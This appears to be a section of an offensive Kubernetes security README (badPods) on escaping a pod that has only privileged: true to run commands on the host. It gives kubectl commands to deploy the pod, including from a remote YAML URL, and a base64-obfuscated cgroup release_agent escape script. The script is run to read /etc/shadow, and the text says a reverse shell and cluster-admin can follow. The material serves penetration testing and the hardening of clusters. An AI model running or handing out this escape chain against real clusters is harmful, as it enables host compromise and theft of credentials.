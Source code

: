 ## Privonly pod - You can create a pod with only privileged: true

If you only have `privileged=true`, you can still get RCE on the host, and ultimately cluster-admin, but the path is more tedious. The exploit below escapes the container and allows you to run one command at a time. From there, you can launch a reverse shell.  

[pod-priv-only.yaml](pod-priv-only.yaml)

### Create a pod
```bash
# Option 1: Create pod from local yaml 
kubectl apply -f pod-priv-only.yaml  [-n namespace] 
# Option 2: Create pod from github hosted yaml
kubectl apply -f https://raw.githubusercontent.com/BishopFox/badPods/main/yaml/pod-priv-only.yaml [-n namespace] 
```

### Exec into pod 
```bash
kubectl -n [namespace] exec -it pod-priv-only -- bash
```

### Post exploitation
```bash
# Create undock script that will automate the container escape POC
echo ZD1gZGlybmFtZSAkKGxzIC14IC9zKi9mcy9jKi8qL3IqIHxoZWFkIC1uMSlgCm1rZGlyIC1wICRkL3c7ZWNobyAxID4kZC93L25vdGlmeV9vbl9yZWxlYXNlCnQ9YHNlZCAtbiAncy8uKlxwZXJkaXI9XChbXixdKlwpLiovXDEvcCcgL2V0Yy9tdGFiYAp0b3VjaCAvbzsgZWNobyAkdC9jID4kZC9yZWxlYXNlX2FnZW50O2VjaG8gIiMhL2Jpbi9zaAokMSA+JHQvbyIgPi9jO2NobW9kICt4IC9jO3NoIC1jICJlY2hvIDAgPiRkL3cvY2dyb3VwLnByb2NzIjtzbGVlcCAxO2NhdCAvbwo= | base64 -d > undock.sh 
# Then use the script to run whatever commands you want on the host: 
sh undock.sh "cat /etc/shadow"
```

Reference(s): 
* https://twitter.com/_fel1x/status/1151487051986087936
* https://blog.trailofbits.com/2019/07/19/understanding-docker-container-escapes/ 

